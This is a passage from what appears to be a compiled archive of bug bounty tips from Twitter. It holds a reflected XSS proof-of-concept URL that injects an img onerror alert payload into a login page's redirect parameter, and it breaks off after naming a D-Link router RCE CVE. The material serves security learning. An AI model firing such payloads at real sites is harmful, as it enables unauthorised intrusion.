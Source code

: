 POC:
/bi-security-login/login.jsp?msi=false&amp;redirect="&gt;&lt;img/src/onerror%3dalert('xss')&gt;

Ref:
https://t.co/ohcvAHKxFg

#bugbounty #bugbountytips  #xss https://t.co/bzNQ6z7lwt
</blockquote>

* https://twitter.com/HackerOn2Wheels/status/1326927875279380480

<table><tr>
<td><img src="pictures/58af011f1ae5643e4299022fa81c64ba31a9335df7e06106d18c36828ff14428.jpg" alt="58af011f1ae5643e4299022fa81c64ba31a9335df7e06106d18c36828ff14428.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1358961456797024263 _at 2021-02-09, 02:10:34_**
<blockquote>
D-Link DSL-2888A AU_2.31_V1.1.47ae55 RCE (CVE-2020-24581)
